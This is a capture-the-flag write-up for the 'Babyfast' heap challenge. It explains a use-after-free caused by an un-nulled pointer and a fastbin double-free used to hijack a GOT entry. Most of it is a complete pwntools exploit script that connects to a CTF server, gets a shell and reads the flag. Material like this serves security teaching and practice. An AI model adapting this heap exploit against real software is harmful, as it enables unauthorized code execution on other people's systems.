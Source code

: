 ## Babyfast  

### Vulnerability  
```
if(idx < 10){
		free(heap[idx]);
	}else{
		puts("Too large");
	}
```
The author didn't make the pointer null, so we can still access the pointer!  
  
### Ideas  
Here I use fastbin corruption:  
1. Double free  
2. first malloc, we can edit the **fd** of freed chunk.  
3. after two times of malloc, we can get the chunk on **fd**. ( you can understand much more by ```heapinfo``` in gdb.  
4. GOThijacking  
( Besides, you need to care about the size error, so we need to forge a fake chunk at the section of GOT.  
  
### Payload  
```
#!/usr/bin/env python
from pwn import *

DEBUG = 0
if DEBUG:
    p = process('./babyfast-d4f44b92382b4bb11257ea06622644b26d2d06fe')
else:
    host = 'csie.ctf.tw'
    port  = 10142
    p = remote(host,port)

e = ELF('./babyfast-d4f44b92382b4bb11257ea06622644b26d2d06fe')
l = ELF('./libc.so.6-14c22be9aa11316f89909e4237314e009da38883')

def allocate(size,data):
    p.recvuntil(':')
    p.sendline('1')
    p.recvuntil(':')
    p.send(str(size)+'\n')
    p.recvuntil(':')
    p.send(data+'\n')

def free(idx):
    p.recvuntil(':')
    p.sendline('2')
    p.recvuntil(':')
    p.send(str(idx)+'\n')

allocate(0x50,'mmmm')
allocate(0x50,'mmmm')
allocate(0x50,'mmmm')
free(0)
free(1)
free(0)
fake = 0x601ffa
allocate(0x50,p64(fake))    #0
allocate(0x50,'/bin/sh\x00')   #1
allocate(0x50,'aaaa')  #0
allocate(0x50,'a'*0xe + p64(0x4007d0))    #fake
free(1)
sleep(1)
p.send('cat /home/`whoami`/flag' + '\n')
p.interactive()
```
